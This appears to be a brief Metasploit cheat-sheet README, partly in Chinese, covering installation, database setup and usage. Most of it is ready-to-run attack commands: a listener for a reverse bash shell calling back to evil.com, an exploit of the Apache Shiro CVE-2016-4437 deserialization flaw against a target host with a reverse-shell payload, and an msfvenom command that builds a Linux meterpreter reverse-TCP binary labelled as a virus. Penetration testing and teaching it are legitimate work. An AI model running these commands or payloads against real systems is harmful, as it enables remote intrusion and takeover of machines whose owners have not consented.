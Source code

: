 The world’s most used penetration testing framework.

## 1. Install

安装

```
┌──(sec@debian)-[~]
└─$ curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall \
&& chmod 755 msfinstall \
&& ./msfinstall && rm -f ./msfinstall
```

## 2. Init

```
┌──(sec@debian)-[~]
└─$ msfdb init
```

## 3. Usage

### 3.1. msfconsole

启动数据库

```
┌──(sec@debian)-[~]
└─$ msfdb start
```

进入控制台

```
┌──(sec@debian)-[~]
└─$ msfconsole
```

Listen

```
use exploit/multi/handler
show options
set PAYLOAD cmd/unix/reverse_bash
set LHOST evil.com
set LPORT 4444
run
```

Exploit

```
search CVE-2016-4437
use exploit/multi/http/shiro_rememberme_v124_deserialize
show options
set TARGET 0
set PAYLOAD cmd/unix/reverse
set RHOSTS example.com
set RPORT 8080
set LHOST evil.com
set LPORT 4444
run
```

### 3.2. msfvenom

生成病毒

```
┌──(sec@debian)-[~]
└─$ msfvenom -a x64 --platform linux -p linux/x64/meterpreter/reverse_tcp LHOST=10.0.2.15 LPORT=4444 -f elf -o ./venom
```

---

References

- [Metasploit](https://www.metasploit.com/)
- [Installing Metasploit on Linux / macOS](https://docs.metasploit.com/docs/using-metasploit/getting-started/nightly-installers.html)

